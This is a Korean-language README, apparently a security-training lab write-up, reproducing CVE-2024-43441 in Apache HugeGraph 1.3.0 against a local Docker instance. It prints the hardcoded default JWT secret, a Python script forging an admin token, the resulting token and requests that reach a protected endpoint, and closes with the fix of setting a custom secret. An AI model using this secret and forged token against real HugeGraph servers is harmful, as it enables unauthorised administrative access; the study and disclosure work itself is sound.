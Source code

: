 # CVE-2024-43441

> 화이트햇 스쿨 3기 - [조성호 (@Reflesh)](https://github.com/Reflesh)

<br/>

## 요약

- auth.token_secret이 설정되지 않은 경우, 기본값으로 하드코딩된 JWT 비밀키가 사용됨
- 공격자는 해당 키로 유효한 JWT 토큰을 생성하여 인증없이 접근 가능
- 따라서 별도의 비밀번호 및 반복 시도 없이 인증 우회가 가능하며 시스템에 대한 완전한 접근이 허용됨

<br/>

## 환경 구성 및 실행
- DockerHub에서 Apache HugeGraph 1.3.0 이미지를 pull
- `docker compose up -d` 커맨드를 입력하여 테스트 환경 실행
- 실행하는 시스템에 Python이 설치되어 있어야함
- `pip install pyjwt` 커맨드를 통해 jwt library 설치(로컬에서 관리자 권한으로 설치)
- `http://localhost:8080` 접속 시 해당 화면이 나타난다면 환경이 잘 구축된 것
![](./localhost.png)


### jwt_token.py
기본 JWT 비밀키를 활용하여 JWT 토큰을 생성하는 파이썬 코드입니다.
```python
# Install the jwt library by running `pip install pyjwt`
import jwt

# Generate JWT token using the default secret
token = jwt.encode(
    {
      "user_name": "admin",
      "user_id": "-30:admin",
      "exp": 9739523483
    },
    "FXQXbJtbCLxODc6tGci732pkH1cyf8Qg",
    algorithm="HS256"
)
print(f"Generated JWT token: {token}")
# Output:
# Generated JWT token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX25hbWUiOiJhZG1pbiIsInVzZXJfaWQiOiItMzA6YWRtaW4iLCJleHAiOjk3Mzk1MjM0ODN9.mnafQi6x9nlMz1OcPQu4xAyiq91Ig5tUFhGsktNXKqg
```
생성된 토큰을 사용하면 아래와 같은 요청으로 HugeGraph의 보호된 endpoint에 접근할 수 있습니다.
```
GET /graphs HTTP/1.1
Host: localhost:8080
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX25hbWUiOiJhZG1pbiIsInVzZXJfaWQiOiItMzA6YWRtaW4iLCJleHAiOjk3Mzk1MjM0ODN9.mnafQi6x9nlMz1OcPQu4xAyiq91Ig5tUFhGsktNXKqg
```
<br/>


## 결과
아래는 위에서 생성한 JWT토큰을 사용하여 endpoint에 접근하는 코드(traffic.py)입니다.
```python
import requests

url = "http://localhost:8080/graphs"

headers = {
    "Host": "localhost:8080",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept": "*/*",
    "Accept-Language": "en-US;q=0.9,en;q=0.8",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36",
    "Connection": "close",
    "Cache-Control": "max-age=0",
    "Authorization": "Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX25hbWUiOiJhZG1pbiIsInVzZXJfaWQiOiItMzA6YWRtaW4iLCJleHAiOjk3Mzk1MjM0ODN9.mnafQi6x9nlMz1OcPQu4xAyiq91Ig5tUFhGsktNXKqg"
}

response = requests.get(url, headers=headers)

print(f"HTTP/{response.raw.version} {response.status_code} {response.reason}")
for key, value in response.headers.items():
    print(f"{key}: {value}")
print()
print(response.text)
```
아래는 Python으로 실제 응답을 받아온 화면입니다.(첫번째 : 공격 성공, 두번째 : 공격 실패)
![](./result.png)

## 정리

해당 취약점은 설정 미비 시 기본값으로 하드코딩된 보안 키를 사용하는 구조적 문제입니다.    
따라서 HugeGraph를 사용할 경우 반드시 `auth.token_secret`을 사용자 정의 키로 설정해야합니다.    
설정하지 않으면 누구든지 기본키만 알고있다면 인증 우회가 가능합니다.   